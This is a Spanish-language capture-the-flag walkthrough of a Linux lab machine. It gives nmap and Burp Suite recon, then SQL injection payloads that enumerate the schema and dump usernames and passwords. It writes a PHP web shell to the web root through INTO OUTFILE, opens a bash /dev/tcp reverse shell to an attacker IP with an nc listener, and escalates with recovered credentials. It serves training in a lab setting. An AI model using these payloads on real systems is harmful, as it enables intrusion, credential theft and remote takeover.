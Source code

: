 ## Summary

Tags: #Linux #SQLI #BurpSuite #ReverShell #PHP #Nmap 

- IP -> 10.10.11.116
- Ports -> TCP (22, 80, 8080, 4566), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
    - 80 -> Apache httpd 2.4.48
    - 8080 -> http nginx / 502 Bad Gateway
    - 4566 -> http nginx / Forbidden

Launchpad -> Focal

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,80 ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Usaremos **BurpSuite** para interceptar la maquina en la parte del campo de la pagina web.
- Le damos en Send y despues Forward, como miramos que no sale nada lo hacemos en el **proxy** 
- Modificamos al lado de la palabra Brazil en el **Proxy** y le damos Forward
- Intercept off 
- Miramos la respuesta en la web 
- Ahora si podemos seguir modificando en el repeater en la parte de Brazil y le damos Send y Forward y todo lo podremos ver en la web.
- Si no sale recargamos la pagina y deberia de salir el resultado

Inyecciones SQLI
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
```bash
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
```

```bash
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
```

Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
```
Encontramos las DBS llamadas 'mysql' y 'registration'

Para saber las tablas de la base de datos (DB) especifica.
```bash
❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -                    # Nos muestra las tablas existentes
Para enumerar las tablas 
```
Encontramos que la tabla tambien de llama 'registration'

Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica.
```bash 
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las tablas existentes
```
Nos muestra ahora 4 columnas pero hay dos importantes 'username' y 'userhash'


Para mostrar la data con concatenaciones
```bash
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
```
Ahora nos disponemos a cargar un archivo y ver si lo podemos observar en la web, esto en una ruta tipica de html que es:
```bash
/var/www/html/file.php 
```

Primero haremos la prueba colocando lo que sea en un archivo .php
```bash
❯ ' union select "❮?php system($_REQUEST['cmd']); ?❯" into outfile "/var/www/html/file.php"-- -   

# Podemos crear un archivo llamado 'file.php' en la ruta html que contenga un cmd que nos interpretara comandos. Primero podemos hacer una prueba, colocando lo que sea en donde esta la parte de System.

# Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=whoami**
	# 1.1.1.1 -> IP de la victima
	# whoami -> Comando a usar, estos pueden ir variando
	# Pero podemos hacer un archivo de PHP Reverse ...
```
Ahora que hemos agregado un archivo en la ruta del HTML. Podemos probar si tenemos ejecucion remota de comandos. 
Despues de verificar que tenemos ejecucion remota de comandos, hacemos lo siguiente. 

## User

Comando de ReverShell para colocarlo en la url
```bash
❯ bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'  # Comando que debemos de Encodear en forma de URL y esto lo podemos colocar en BurpSuite, para despues hacerle Encoder y poderlo poner en la URL 
```
Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=** Aqui

Despues nos colocamos en escucha para al momento de darle Enter a la URL, podamos recibir la Revershell
```bash
❯ nc -nlvp 443 
```

Una vez adentro haciendo un ls -l podemos ver un file que se llama config.php en el cual cuando lo miremos con cat encontraremos un user y passwd.
Si nos regresamos al home del usuario podremos encontrar la flag user.txt

## Root
Despues con el siguiente comando y la passwd que habiamos encontrado, podremos convertirnos en Root
```bash
❯ su root                        # Para convertirnos en root y debemos de proporcionar una passwd
```